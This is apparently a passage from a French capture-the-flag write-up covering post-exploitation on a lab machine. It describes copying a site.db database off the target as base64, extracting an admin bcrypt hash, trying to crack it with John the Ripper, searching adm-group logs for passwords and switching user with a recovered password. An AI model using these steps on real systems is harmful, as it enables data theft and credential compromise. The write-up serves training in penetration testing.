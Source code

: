 Une fois qu'on a obtenu un shell, on retrouve rapidement un fichier `site.db` sous `/home/web/blog/flaskblog`.

![[lat-userdb.png]]

On ne peut pas le transférer via un serveur web python, je vais utiliser une strings en base64 encodé sur la target que je décoderais sur ma machine par la suite. On commence par copier la strings en base64 après avoir exécuter cette commande.

`cat site.db | base64 > xdb_b64`

![[base64_db_extract.png]]

Puis sur ma machine je vais simplement exécuter cette commande pour récupérer le fichier

`echo "<loooong_b64_strings>" | base64 -d > site.db`

![[base64_db_decode.png]]

Maintenant je peux me connecter avec `sqlite3` et énumérer la DB.

![[lat-db-enum.png]]

Enumération des tables puis de la table `user`

![[db_extract_users.png]]

On retrouve l'utilisateur `admin` et son hash associé `$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`. Selon le site [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), il s'agit de bcrypt (mode 30600 pour hashcat).

![[hashcat-bcrypt.png]]

Tentative de crack avec JtR, mais ça ne donne rien

`john --format=bcrypt hash_admin.txt --wordlist=../tools/rockyou.txt`

L'utilisateur fait parti du groupe `adm`

![[lat-id.png]]

On peut utiliser la commande find pour voir où ce groupe a de l'intérêt sur le FS

`find / -group adm -ls 2>/dev/null | grep -v '/proc\|/sys\|/home\|/run'`

![[lat-find-adm.png]]

On peut voir qu'il gère le monitoring sur le FS, on peut essayer de grep pour des mots de passe dans les logs.

`grep -R "password" 2>/dev/null`

![[lat-passlog.png]]

On retrouve le mot de passe `Guitar123`, on peut essayer de se connecter en SSH avec shaun, mais ça ne passe pas. On peut tenter directement de switch sur la target avec `su` et ça fonctionne.
